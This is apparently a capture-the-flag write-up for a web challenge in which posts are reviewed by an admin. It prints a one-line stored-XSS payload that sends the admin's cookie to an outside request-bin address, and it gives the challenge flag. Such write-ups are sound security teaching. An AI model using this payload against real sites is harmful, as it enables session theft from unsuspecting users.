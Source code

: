 # Apporach
- Upon first glance, we see that the target website `https://govagriculture.web.ctfcompetition.com/` provides a form submission area, and the admin page. However, the admin page link redirects user back to the home page.
- When I tried to submit a test post, I was given the following message "Your post was submitted for review. Administator will take a look shortly". This hints to an XSS vulnerability that requaire us to steal the cookie of the admin.
- To achieve that, I found an online HTTP request bin, and used that link to build the following exploit:
```javascript
hi <img id='on'> <script>document.getElementById("on").src = "ADDRESS?session="+document.cookie</script>
```
- Upon inspecting the HTTP request sent to the request bin, I was able to see the flag
# Flag
CTF{8aaa2f34b392b415601804c2f5f0f24e}
